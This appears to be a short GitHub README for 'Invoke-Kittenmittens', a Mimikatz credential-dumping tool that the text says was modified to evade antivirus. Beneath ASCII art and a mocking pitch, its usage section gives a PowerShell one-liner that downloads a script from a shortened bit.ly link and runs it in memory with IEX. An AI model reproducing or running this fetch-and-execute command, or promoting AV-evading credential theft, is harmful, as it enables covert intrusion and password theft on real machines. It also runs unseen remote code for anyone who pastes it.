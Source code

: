 # Invoke-Kittenmittens
Modified "Invoke-Mimikatz" to avoid AV detection

```
                                     |-\
    ___  .  ,     __    _    .       \  \
     |   | /     |  \  / \  /|        |  |
     |   |/      |__/  \_    |        |  \
     |   |\      |       \   |        |  |
    _|_  | \  .  |     \_/  _|_       |  |
                                      |  |
      ___,                            /  /
 ---``    \_     ________---______   |  /
 \           ```                ```-/  /
  }                                    \
  {                                     \
    \ |                                 |
      |                                 |
      |                                 |
      |         _ ------ - ,           /
      /       /  \    |      -        /
     |      /     l   |       ` - _    \
     L__  /        \  |           \\__,L
    /   7           l`T            //  /
 ~``  /             | |          //`  /
{___,~             {__/          \\__/
```

Is your Mimikatz making too much noise all the time? Is your Mimikatz constantly stomping around and triggering AV? Think there's no answer? You're so stupid! There is! Invoke-Kittenmittens.

# Usage

Run Invoke-Kittenmittens in-memory via a single, condensed CMD command:
```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/2mgBLOs'); Invoke-Kittenmittens"
```
